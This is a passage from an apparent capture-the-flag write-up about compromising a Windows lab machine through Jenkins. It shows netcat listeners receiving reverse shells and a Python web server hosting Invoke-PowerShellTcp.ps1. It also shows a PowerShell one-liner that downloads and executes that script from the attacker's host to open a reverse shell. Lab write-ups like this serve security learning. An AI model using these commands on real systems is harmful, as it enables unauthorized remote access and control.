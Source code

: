 Results;

```shell
└─$ nc -lvnp 1337                                                                                                
listening on [any] 1337 ...
connect to [10.14.49.18] from (UNKNOWN) [10.10.16.110] 49206
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Jenkins>whoami
whoami
alfred\bruce

C:\Program Files (x86)\Jenkins>
```
 
Now we need to enumerate further using PowershellTcp.ps1 though we need to set up a simple http server on our machine to host the file

```shell
└─$ python3 -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now to download the file via cmd window we have open on the machine;

```shell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.14.49.18:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.14.49.18 -Port 1338
```

Result;

```shell
└─$ nc -lvnp 1338                                                                                                
listening on [any] 1338 ...
connect to [10.14.49.18] from (UNKNOWN) [10.10.16.110] 49218
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins>whoami
alfred\bruce
PS C:\Program Files (x86)\Jenkins> 
```

---

# Lateral Movement to user

## Local Enumeration

Now we have Powershell access we can enumerate and find the user.txt flag
